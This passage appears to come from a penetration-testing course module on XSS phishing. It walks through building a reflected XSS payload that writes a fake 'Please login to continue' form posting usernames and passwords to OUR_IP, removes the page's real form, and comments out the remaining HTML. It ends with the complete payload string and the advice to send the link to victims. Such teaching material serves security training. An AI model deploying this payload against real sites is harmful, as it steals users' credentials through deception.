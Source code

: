 Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function document.write(), and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the write function, the final JavaScript code should be as follows:
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a Reflected XSS vulnerability, so we can copy the URL and our XSS payload in its parameters. In case basic payloads like `<script>alert('XSS')</script>` don't work, an example of non-basic XSS payload could be `'><script>alert('XSS')</script>` (note the first two characters).

### Cleaning Up

If we see that the an object field that we don't want is still displayed, which defeats our line of "Please login to continue", to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the Page Inspector Picker by clicking [CTRL+SHIFT+C] and then clicking on the element we need. In our example, the url form has the id `urlform`:
```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```
So, we can now use this id with the `remove()` function to remove the URL form:
```javascript
document.getElementById('urlform').remove();
```
Now, once we add this code to our previous JavaScript code (after the document.write function), we can use this new JavaScript code in our payload:
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
If we also see that there's still a piece of the original HTML code left after our injected login form, this can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:
```html
...PAYLOAD... <!-- 
```
We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. The entire string will be like:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```
